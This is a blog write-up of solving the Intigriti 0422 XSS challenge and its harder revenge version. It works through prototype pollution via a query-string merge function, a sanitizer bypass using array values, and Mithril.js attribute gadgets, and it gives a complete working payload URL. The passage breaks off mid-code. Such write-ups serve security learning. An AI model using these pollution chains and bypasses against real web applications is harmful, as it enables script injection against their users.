







This week, I stumbled upon [Huli's](https://x.com/aszx87410) [Intigriti 0422 XSS challenge](https://bugology.intigriti.io/intigriti-monthly-challenges/0422) and decided to try and solve it. I spent around 10 hours solving the challenge and after solving it, I found out there was also a harder [revenge version](https://aszx87410.github.io/xss-challenge/revenge-of-intigriti-0422/) of the challenge. 10 hours later, I solved that one too. This is the process of how I solved both challenges.

- link to first challenge: [https://challenge-0422.intigriti.io/](https://challenge-0422.intigriti.io/)
- link to second challenge: [https://aszx87410.github.io/xss-challenge/revenge-of-intigriti-0422/](https://aszx87410.github.io/xss-challenge/revenge-of-intigriti-0422/)

# The first challenge

Opening up the challenge, we are greeted with a windows XP looking UI that allows us to create windows based on user input



By filling out the form fields, we are able to display a UI with our user input inside it.



To figure out how this functionality worked, I started to look into the javascript in dev tools. 

The first thing I noticed was that page was using a javascript framework called [Mithril.js](https://mithril.js.org/) to generate the webpage. Here is a snippet of what Mithril.js looks like:

```javascript
const StatusBar = {
  view: function() {
    return m("div", {class: "status-bar"}, [
      m("p", {class: "status-bar-field"}, "Press F1 for help"),
      m("p", {class: "status-bar-field"}, "Powered by XP.css and Mithril.js"),
      m("p", {class: "status-bar-field"}, "CPU Usage: 32%"),
    ])
  }
}
```

The second thing I noticed was that the URL query string was being parsed into a object. 

The following query string:

```
?config[window-name]=name&config[window-content]=content&config[window-toolbar][0]=min&config[window-toolbar][1]=max&config[window-statusbar]=true
```

would get parsed into:

```javascript
{
  "config": {
    "window-name": "name",
    "window-content": "content",
    "window-toolbar": [
      "min",
      "max"
    ],
    "window-statusbar": true
  }
}
```

The final thing I noticed was that there was a object merging function being used on the object created from the URL query string for some reason.

```javascript
function isPrimitive(n) {
  return n === null || n === undefined || typeof n === 'string' || typeof n === 'boolean' || typeof n === 'number'
}

function merge(target, source) {
  let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m"]

  for(let key in source) {
    if (protectedKeys.includes(key)) continue

    if (isPrimitive(target[key])) {
      target[key] = sanitize(source[key])
    } else {
      merge(target[key], source[key])
    }
  }
}

function sanitize(data) {
  if (typeof data !== 'string') return data
  return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')
}
```

The merge function takes in a `target` object and a `source` object. It then merges all values (after applying a `sanitize` function of that value) of the `source` object into the `target` object if a key containing the value exists in both the `target` and `source` object.

After seeing the `merge` function, I assumed that to solve the challenge, I had to use this function to obtain prototype pollution and find a script gadget which would allow me to achieve XSS, so I started looking into prototype pollution.

# Abusing the merge function for prototype pollution

I didnt really know how to do prototype pollution, so I started off by reading some posts online about the topic and testing some javascript code in the console. Here are some posts and blogs that helped me understand prototype pollution better:

- [Jorian's Gitbook page on prototype pollution](https://book.jorianwoltjer.com/languages/javascript/prototype-pollution) (this wiki page helped me understand prototype pollution better)
- [Michał Bentkowski's blog post on bypassing HTML sanitizers using prototype pollution](https://web.archive.org/web/20201123011744/https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) (gave me some real world examples on how prototype pollution could be used for exploitation)

After reading those, I started figuring out how I could exploit the merge function for prototype pollution. My goal here was to set `Object.prototype.test` to be `1` just to see if I could get prototype pollution working in the first place.

Here is the code snippet where the merge function is first called:

```javascript
const qs = m.parseQueryString(location.search)

let appConfig = Object.create(null)
appConfig["version"] = 1337
appConfig["mode"] = "production"
appConfig["window-name"] = "Window"
appConfig["window-content"] = "default content"
appConfig["window-toolbar"] = ["close"]
appConfig["window-statusbar"] = false
appConfig["customMode"] = false

if (qs.config) {
  merge(appConfig, qs.config)
  appConfig["customMode"] = true
}
```

the `m.parseQueryString` is the function that parses the query string into a object, which is then merged into the `appConfig` object.

I started off by setting one of the URL parameter keys to be:

```
?config[window-toolbar][__proto__][__proto__][test]=1
```

However, that did not work as the merge function would refuse to merge any keys in our object that equaled `"__proto__"`

```javascript
  let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m"]

  for(let key in source) {
    if (protectedKeys.includes(key)) continue
    ...
```

the `m.parseQueryString` function also refused to create keys in our object that equaled `"__proto__"` (i commented out the lines that didnt matter in the function)

```javascript
var parseQueryString = function(string) {
//  if (string === "" || string == null) return {}
//  if (string.charAt(0) === "?") string = string.slice(1)
//  var entries = string.split("&"), counters = {}, data0 = {}
//  for (var i = 0; i < entries.length; i++) {
//    var entry = entries[i].split("=")
//    var key5 = decodeURIComponent(entry[0])
//    var value2 = entry.length === 2 ? decodeURIComponent(entry[1]) : ""
//    if (value2 === "true") value2 = true
//    else if (value2 === "false") value2 = false
//    var levels = key5.split(/\]\[?|\[/)
//    var cursor = data0
//    if (key5.indexOf("[") > -1) levels.pop()
//    for (var j0 = 0; j0 < levels.length; j0++) {
//      var level = levels[j0], nextLevel = levels[j0 + 1]
//      var isNumber = nextLevel == "" || !isNaN(parseInt(nextLevel, 10))
//      if (level === "") {
//        var key5 = levels.slice(0, j0).join()
//        if (counters[key5] == null) {
//          counters[key5] = Array.isArray(cursor) ? cursor.length : 0
//        }
//        level = counters[key5]++
//      }
      // Disallow direct prototype pollution
      else if (level === "__proto__") break
//      if (j0 === levels.length - 1) cursor[level] = value2
//      else {
//        // Read own properties exclusively to disallow indirect
//        // prototype pollution
//        var desc = Object.getOwnPropertyDescriptor(cursor, level)
//        if (desc != null) desc = desc.value
//        if (desc == null) cursor[level] = desc = isNumber ? [] : {}
//        cursor = desc
//      }
//    }
//  }
//  return data0
}
```

So I had to find a way to do prototype pollution without using the `__proto__` keyword. Fortunately, the keywords `constructor` and `prototype` were not blocked, so I could use `Object.constructor.prototype` for prototype pollution instead of `Object.__proto__`.

I tried:

```
?config[window-toolbar][constructor][constructor][prototype][test]=1
```

and tried seeing if `({}).test` equaled 1. However, `({}).test` was still unset. I stepped through the merge function in the debugger to see where the test property was being set and found out by setting `[].constructor.constructor.prototype`, I was setting `Function.test` equal to `1` instead of `Object.prototype`.

It turns out you cant chain `constructor` properties to access the global `Object` prototype as you will just keep getting the `Function` prototype if you try to chain more than one `constructor` property.

After learning about this, I realized I could only pollute properties on string or array objects as there was no value in the `appConfig` object that allowed me to access the global object in a single `constructor` property call, so I started looking around on the javascript to see if there was anything else I could do to be able to pollute the global object.

I noticed that right after the first merge call in the code was completed, the code would then call another merge function on another object called `devSettings` if a function called `checkHost` returned `true`.

```javascript
let devSettings = Object.create(null)
devSettings["root"] = document.createElement('main')
devSettings["isDebug"] = false
devSettings["location"] = 'challenge-0422.intigriti.io'
devSettings["isTestHostOrPort"] = false

if (checkHost()) {
  devSettings["isTestHostOrPort"] = true
  merge(devSettings, qs.settings)
}
```

The `checkHost` function is defined as follows:

```javascript
function checkHost() {
  const temp = location.host.split(':')
  const hostname = temp[0]
  const port = Number(temp[1]) || 443
  return hostname === 'localhost' || port === 8080
}
```

In any normal circumstances, this function would be set to `false`, as the hostname of the webpage would never be `localhost` and the port would never be `8080`.

However, I realized that when I typed `location.host.split(":")` into the webpage, I would get back:

```javascript
> location.host.split(":")
['challenge-0422.intigriti.io']
```

which meant that temp[1] would always be undefined. Because I had access to pollute the `Array` prototype, I decided to input the following query string:

```
?config[window-toolbar][constructor][prototype][1]=8080
```

this set `Array[1]` to be `8080` and allowed the `checkHost` function to return `true`.

```javascript
> [][1]
'8080'

> checkHost()
true
```

which allowed for the 2nd `merge` function to run with the `devSettings` object as the `target` for the merge function. The `devSettings` looked like this:

```javascript
{
  "root": HTMLElement,
  "isDebug": false,
  "location": "challenge-0422.intigriti.io",
  "isTestHostOrPort": true
}
```

I noticed that `root` was set to be a `HTMLElement` object, which would allow us to reach the global object. I ran a [script](https://book.jorianwoltjer.com/languages/javascript/prototype-pollution#breadth-first-search-bfs-algorithm-for-property-access-to-other-types) I found in Jorian's Gitbook which allowed me to see which properties of the `HTMLElement` object led to a `Object` property, and found that I was able to pollute the global `Object` by setting `HTMLElement.ownerDocument.defaultView.JSON.constructor.prototype`.

I then added the following URL parameter to the URL:

```
?settings[root][ownerDocument][defaultView][JSON][constructor][prototype][test]=1
```

and was able to pollute the global object.

```javascript
> Object.prototype

{
  "test": "1"
}
```

# Figuring out what to pollute

Now that I had prototype pollution on `Object.prototype`, I needed to figure out what I could pollute in order to achieve XSS. To do this, I assumed I needed to learn more about how Mithril.js works as the page was using Mithril.js to add user input into the HTML. I did this by reading the source code and documentation of Mithril.js, along with testing small snippets of Mithril.js in a test page on my local machine.

At some point I googled online for `Mithril.js XSS` and found [this](https://github.com/MithrilJS/mithril.js/issues/2356) github issue which shows a way to get XSS on Mithril.js. I tried testing the payload on my own test page using the following code:

```javascript
m.render(
  document.getElementById("app"),
  m(
    "div",
    {
      innerHTML:
      "",
    },
    []
  )
);
```

and was able to pop an alert



After seeing the above code snippet working, I figured that if I polluted the `innerHTML` property of `Object.prototype` with ``, I would be able to achieve XSS off Mithril.js adding HTML onto the page in the javascript of the challenge page. So I added the following URL parameter to the URL:

```
?settings[root][ownerDocument][defaultView][JSON][constructor][prototype][innerHTML]=
```

and received this on the webpage:



This was because there was a `sanitize` function that converted all instances of `<`, `>`, `%`, `&`, `$`, `\`, `script`, and spaces in the input into `_`.

```javascript
function sanitize(data) {
  if (typeof data !== 'string') return data
  return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')
}
```

I could get around spaces in img payload by replacing the spaces with `/`, but I was unable to get around `<` and `>` characters being turned into `_`. Therefore, if I wanted this payload to work, I needed to bypass the `data.replace` call entirely.

After a while, I noticed that the `data.replace` call only gets called if the data type is a string. I also realized that due to how the query string was being parsed into a object, I could convert the img payload being sanitized in the `sanitize` function to an array type instead. This would allow me to bypass the `data.replace` call.

I tested this out by adding the changing the URL parameter:

```
?settings[root][ownerDocument][defaultView][JSON][constructor][prototype][innerHTML]=
```

to:

```
?settings[root][ownerDocument][defaultView][JSON][constructor][prototype][innerHTML][0]=
```

(notice the `[0]` at the end of innerHTML in the changed URL parameter)

this allowed for me to bypass the sanitize function:



and solve the challenge.



final payload:

```
https://challenge-0422.intigriti.io/challenge/Window%20Maker.html?settings[root][ownerDocument][defaultView][JSON][constructor][prototype][innerHTML][0]=%3Csvg/onload%3dalert(document.domain)%3E&config[window-name]=name&config[window-content]=content&config[window-toolbar][0]=min&config[window-statusbar]=true&config[window-toolbar][constructor][prototype][1]=8080
```

# Second challenge

After solving this challenge, I went to read the [official solution](https://blog.huli.tw/2022/04/25/en/intigriti-0422-xss-challenge-author-writeup/) to see if there was any other ways to solve the challenge. Turns out, the original challenge had some bugs in the code which made the challenge easier than intended, so he made a revenge version of the challenge with some minor changes to the code. I decided that I wanted to solve that version of the challenge too, so I went to the [revenge](https://aszx87410.github.io/xss-challenge/revenge-of-intigriti-0422) challenge page to see what was different.

Upon viewing the source code for the revenge challenge, I saw this in the HTML comments:

```
<!--
  diff:

  - if (typeof data !== 'string') return data
  + if (typeof data !== 'string') data = String(data)

  - let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m"]
  + let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m", "Object"]

-->
```

I have no idea what the 2nd diff does, but the first diff kills off my first solution as it makes the sanitize function convert all user input into strings and pass them into the `data.replace` call instead of returning the data if the data given is not a string. To solve this, I would have to go back to reading Mithril.js source code and other properties to pollute which would grant me XSS.

# Holy shit that was hard

Instead of figuring out the solution on the actual challenge page, I downloaded the version of Mithril.js used on the challenge onto my own computer and locally hosted my own webpage to debug and figure out the solution.

I already knew that I could set attributes such as `innerHTML` onto the generated HTML tags by using prototype pollution, so I started thinking of ways I could set attributes onto HTML tags in a way where I could get XSS. My mind immediately thought of doing something like:

```html
<div tabindex="1" onfocus="alert(document.domain)" autofocus>
```

I could set the `tabindex`, `onfocus`, and `autofocus` attributes using prototype pollution as the input for these attributes did not contain any characters that would get sanitized, and get XSS that way.

So I tried running the following javascript:

```javascript
({}).__proto__.tabindex = 1;
({}).__proto__.autofocus = 1;
({}).__proto__.onfocus = "alert(1)";

m.render(
  document.getElementById("app"),
  m(
    "div",
    {
      id: "x",
    },
    "TEST"
  )
);
```

An alert did not pop. I inspected the HTML to see what was wrong and saw that the `div` that was generated off the javascript code looked like this:

```html
<div id="x" autofocus="">TEST</div>
```

What the fuck??? Where did my `tabindex` and `onfocus` go? I tried setting the attributes directly on the attributes object instead:

```javascript
m.render(
  document.getElementById("app"),
  m(
    "div",
    {
      id: "x",
      tabindex: 1,
      autofocus: 1,
      onfocus: "alert(1)",
    },
    "TEST"
  )
);
```

And got this:

```html
<div id="x" tabindex="1" autofocus="">TEST</div>
```

I then figured that this must not be the solution as the onfocus was being filtered out, and spent a couple hours wasting my time. I cant remember exactly what I did but it involved a bunch of breakpoints at random places, 5 separate instances of chrome dev tools being open at the same time, random payloads, and me feeling like I was getting bent over.

Wasting my time eventually led me to setting a breakpoint on the function that set the attributes onto the HTML tags and stepping through it to understand how it worked.

```javascript
function setAttrs(vnode3, attrs2, ns) {
  for (var key in attrs2) {
    setAttr(vnode3, key, null, attrs2[key], ns)
  }
}

function setAttr(vnode3, key, old, value, ns) {
  if (key === "key" || key === "is" || value == null || isLifecycleMethod(key) || (old === value && !isFormAttribute(vnode3, key)) && typeof value !== "object") return
  if (key[0] === "o" && key[1] === "n") return updateEvent(vnode3, key, value)
  if (key.slice(0, 6) === "xlink:") vnode3.dom.setAttributeNS("http://www.w3.org/1999/xlink", key.slice(6), value)
  else if (key === "style") updateStyle(vnode3.dom, old, value)
  else if (hasPropertyKey(vnode3, key, ns)) {
    if (key === "value") {
      // Only do the coercion if we're actually going to check the value.
      /* eslint-disable no-implicit-coercion */
      //setting input[value] to same value by typing on focused element moves cursor to end in Chrome
      if ((vnode3.tag === "input" || vnode3.tag === "textarea") && vnode3.dom.value === "" + value && vnode3.dom === activeElement()) return
      //setting select[value] to same value while having select open blinks select dropdown in Chrome
      if (vnode3.tag === "select" && old !== null && vnode3.dom.value === "" + value) return
      //setting option[value] to same value while having select open blinks select dropdown in Chrome
      if (vnode3.tag === "option" && old !== null && vnode3.dom.value === "" + value) return
      /* eslint-enable no-implicit-coercion */
    }
    // If you assign an input type0 that is not supported by IE 11 with an assignment expression, an error will occur.
    if (vnode3.tag === "input" && key === "type") vnode3.dom.setAttribute(key, value)
    else vnode3.dom[key] = value
  } else {
    if (typeof value === "boolean") {
      if (value) vnode3.dom.setAttribute(key, "")
      else vnode3.dom.removeAttribute(key)
    }
    else vnode3.dom.setAttribute(key === "className" ? "class" : key, value)
  }
}
```

The `setAttrs` function loops through all keys in a object and calls the `setAttr` function on each of them to set them as attributes on the HTML tag passed in as a argument.

I noticed that I was able to set attributes such as `id` or `class` just fine, but that I was unable to set `onfocus` for some reason. Stepping through the code in a debugger, I tried figuring out why the `onfocus` attribute was disappearing. Eventually I noticed this line of code:

```javascript
function setAttr(vnode3, key, old, value, ns) {
  ...
  if (key[0] === "o" && key[1] === "n") return updateEvent(vnode3, key, value)
  ...

}
```

The `setAttr` function seems to do some special logic for event handlers that start with `on`. I decided to look at how the `updateEvent` function worked:

```javascript
function updateEvent(vnode3, key, value) {
  if (vnode3.events != null) {
    if (vnode3.events[key] === value) return
    if (value != null && (typeof value === "function" || typeof value === "object")) {
      if (vnode3.events[key] == null) vnode3.dom.addEventListener(key.slice(2), vnode3.events, false)
      vnode3.events[key] = value
    } else {
      if (vnode3.events[key] != null) vnode3.dom.removeEventListener(key.slice(2), vnode3.events, false)
      vnode3.events[key] = undefined
    }
  } else if (value != null && (typeof value === "function" || typeof value === "object")) {
    vnode3.events = new EventDict()
    vnode3.dom.addEventListener(key.slice(2), vnode3.events, false)
    vnode3.events[key] = value
  }
}
```

Stepping through a debugger, I found out that when a attribute started with `on`, the `updateEvent` function would always end up on this line of code:

```javascript
function updateEvent(vnode3, key, value) {
  ...
  } else if (value != null && (typeof value === "function" || typeof value === "object")) {
    vnode3.events = new EventDict()
    vnode3.dom.addEventListener(key.slice(2), vnode3.events, false)
    vnode3.events[key] = value
  }
}
```

The function would first check if the value of the key was actually a function before adding an event listener to the HTML element for the event specified. I then realized that the reason my `onfocus` event listener wasnt being added to the page the `"alert(1)"` value I passed in was a string and not a function.

I tested this out on my test page to see what would happen if I changed the `onfocus` attribute to a function:

```javascript
m.render(
  document.getElementById("app"),
  m(
    "div",
    {
      id: "x",
      tabindex: 1,
      autofocus: 1,
      onfocus: () => alert(1),
    },
    "TEST"
  )
);
```

and an alert popped (the `onfocus` attribute still didnt exist on the div when I inspected the HTML, I have no idea why).

I then tried bypassing the `key[0] === "o" && key[1] === "n"` in `setAttr` just to see what happens. I tried changing the `onfocus` key to `ONFOCUS` and set the value back to `"alert(1)"` instead of `() => alert(1)`:

```javascript
m.render(
  document.getElementById("app"),
  m(
    "div",
    {
      id: "x",
      tabindex: 1,
      autofocus: 1,
      ONFOCUS: "alert(1)",
    },
    "TEST"
  )
);
```

This resulted in the alert showing up even though the value passed in was not a function.

I stepped through the `setAttr` function to see why this was the case and saw this line being used to add the `onfocus` attribute to the `div` instead:

```javascript
function setAttr(vnode3, key, old, value, ns) {
  ...
    else vnode3.dom.setAttribute(key === "className" ? "class" : key, value)
  ...
}
```

Upon inspecting the HTML, I saw that the `ONFOCUS` attribute got autocorrected to `onfocus`, which is probably what led to the alert being popped.

Seeing that the alert worked, I went back to setting the keys as `Object.prototype` properties to see if the solution would still work:

```javascript
({}).__proto__.tabindex = 1;
({}).__proto__.autofocus = 1;
({}).__proto__.ONFOCUS = "alert(1)";

m.render(
  document.getElementById("app"),
  m(
    "div",
    {
      id: "x",
    },
    "TEST"
  )
);
```

and it stopped working again >:(

I decided to step through the `setAttr` once again to see what was going on. It turns out there was a function called `hasPropertyKey` being called in `setAttr`. When I set the attributes directly in a object passed into the `m.render` function, `hasPropertyKey` returned `false`, and went to the code path that used `setAttribute` to set attributes. However, after I polluted `Object.prototype` with my attributes, `hasPropertyKey` returned `true` for some reason and `setAttribute` was never called.

```javascript
function setAttr(vnode3, key, old, value, ns) {
  ...
  else if (hasPropertyKey(vnode3, key, ns)) { // hasPropertyKey became true instead of false for some reason
  ...
    else vnode3.dom[key] = value // started setting properties directly instead of using setAttribute
  } else {
    if (typeof value === "boolean") {
      if (value) vnode3.dom.setAttribute(key, "")
      else vnode3.dom.removeAttribute(key)
    }
    else vnode3.dom.setAttribute(key === "className" ? "class" : key, value)
  }
}
```

I decided to look into the `hasPropertyKey` function to see how I could make it false again:

```javascript
function hasPropertyKey(vnode3, key, ns) {
  // Filter out namespaced keys
  return ns === undefined && (
    // If it's a custom element, just keep it.
    vnode3.tag.indexOf("-") > -1 || vnode3.attrs != null && vnode3.attrs.is ||
    // If it's a normal element, let's try to avoid a few browser bugs.
    key !== "href" && key !== "list" && key !== "form" && key !== "width" && key !== "height"// && key !== "type"
    // Defer the property check until *after* we check everything.
  ) && key in vnode3.dom
}
```

From stepping through the code in a debugger, I figured out that the 2nd condition in the and clause would always be false, and the `key in vnode3.dom` would always be true if I tried adding attributes using prototype pollution, which I would need to do if I wanted to set arbitrary attributes in the actual challenge. That left figuring out how to make `ns === undefined` equal to `false`. To do this, I would need to figure out what `ns` was and how to set it. I started looking through the stack trace to see if I could control it.

I found out it was set to be `undefined` in a function called `createElement`, but only if a function called `getNameSpace` was `undefined` also.

```javascript
function createElement(parent, vnode3, hooks, ns, nextSibling) {
  ...
  ns = getNameSpace(vnode3) || ns
  ...
  if (attrs2 != null) {
    setAttrs(vnode3, attrs2, ns)
  }
  ...
}
```

So I checked out what the `getNameSpace` function did:

```javascript
function getNameSpace(vnode3) {
  return vnode3.attrs && vnode3.attrs.xmlns || nameSpace[vnode3.tag]
}
```

and found out I could also abuse prototype pollution to get this function to return a value of my choosing, which would result in `ns === undefined` to be `false`, resulting in `hasPropertyKey` to be `false` also, and allowing me to set attributes using `setAttribute` once again.

first thing I tried doing was setting `Object.prototype.tag` to make the `getNamespace` function to return a value. This did not work and led me down a rabbit hole of doing more random things that did not work (would rather not make this writeup 1000 words longer so I will not explain what I tried).

I then tried setting `Object.prototype.xmlns` to random values. Setting the `Object.prototype.xmlns` to random values did not work as for some reason the browser stopped autocorrecting the capitalized `ONFOCUS` to lowercase, resulting in the event handler not firing. Spent an hour setting this value to random things until at some point I started looking for bugs in a completely unrelated part of the Mithril.js library and noticed that in a random function, a variable called `namespace` was being compared with the string `"http://www.w3.org/1999/xhtml"`.

```javascript
return function(dom, vnodes, redraw) {
  ...
  try {
    currentRedraw = typeof redraw === "function" ? redraw : undefined
    updateNodes(dom, dom.vnodes, vnodes, hooks, null, namespace === "http://www.w3.org/1999/xhtml" ? undefined : namespace)
  } finally {
  ...
}
```

I have no idea what this code does, but I set `Object.prototype.xmlns` to be `"http://www.w3.org/1999/xhtml"`:

```javascript
({}).__proto__.tabindex = 1;
